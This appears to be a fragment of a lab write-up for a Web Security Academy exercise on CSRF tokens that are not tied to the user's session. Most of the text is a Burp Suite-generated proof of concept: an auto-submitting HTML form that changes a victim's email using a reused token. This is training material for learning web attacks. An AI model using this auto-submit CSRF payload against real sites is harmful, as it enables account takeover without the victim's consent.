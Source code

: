 where token is not tied to user session: 

copy the **unused** csrf and paste it into the generated POC 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a020027035bdae682faddc000590012.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="carlos11&#64;carlos&#45;montoya&#46;net" />
      <input type="hidden" name="csrf" value="1Vt8Y69U2YO5iIw831GSDVvNXQVeriyG" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

